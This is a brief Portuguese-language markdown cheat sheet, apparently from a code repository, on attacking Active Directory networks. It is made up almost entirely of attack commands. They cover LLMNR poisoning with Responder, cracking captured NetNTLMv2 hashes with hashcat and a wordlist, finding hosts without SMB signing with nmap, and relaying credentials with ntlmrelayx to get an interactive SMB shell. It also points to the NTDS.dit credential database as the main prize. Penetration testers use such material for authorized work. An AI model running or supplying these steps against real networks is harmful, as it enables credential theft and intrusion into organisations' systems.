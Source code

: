 
#### O QUEIJO MAIOR EM UM AD
###### Ntds.dit localizado em:  
###### %SystemRoot%\NTDS  
###### Este arquivo é um banco de dados do AD  



#### LLMNR POISONING  
###### Orquestrando o ataque:  
```
$ sudo apt update
$ sudo apt install responder -y
$ sudo responder -I eth0 -rdwV
```

###### Quebrado NetNTLMv2:  
```
$ hashcat -m 5600 ntlmhash.txt rockyou.txt --force
```
###### OU  

```
$ hashcat64.exe -m 5600 ntlmhash.txt rockyou.txt -O
```


#### SMB RELAY  
###### Orquestrando o ataque:  
> Descobrindo os hosts da rede que possuem smb ativado:  
```
$ nmap --script=smb2-security-mode.nse -p445 192.168.0.0/24
```

> Procure pelo banner: Message signing enable but not required.  


###### Transmitindo crendenciais com responder e ntlmrelayx:  
```
$ pico /etc/responder/Responder.conf
```
```
SMB = Off
HTTP = Off
```
```
$ python responder.py -I eth0 -rdw -v
$ python ntlmrelayx.py -tf targets.txt -smb2support
```

###### Obtendo um shell interativo:  
```
$ python responder.py -I eth0 -rdw -v
$ python ntlmrelayx.py -tf targets.txt -smb2support -i

$ nc 127.0.0.1 11000
# help
```
